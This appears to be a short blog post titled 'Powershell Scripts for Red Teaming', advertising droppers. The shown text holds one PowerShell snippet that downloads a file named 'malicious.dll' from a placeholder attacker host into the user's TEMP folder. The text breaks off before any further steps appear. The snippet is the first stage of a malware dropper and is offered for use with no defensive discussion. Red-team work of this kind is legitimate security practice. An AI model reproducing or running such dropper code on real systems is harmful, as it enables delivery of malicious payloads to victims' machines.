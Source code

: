 ```yaml
---
layout: post
title:  "Powershell Scripts for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


Red teaming powershell scripts. Droppers and more.

---

```powershell
$url = "http://serverip/malicious.dll"
$dllPath = "$env:TEMP\malicious.dll"

Invoke-WebRequest -Uri $url -OutFile $dllPath

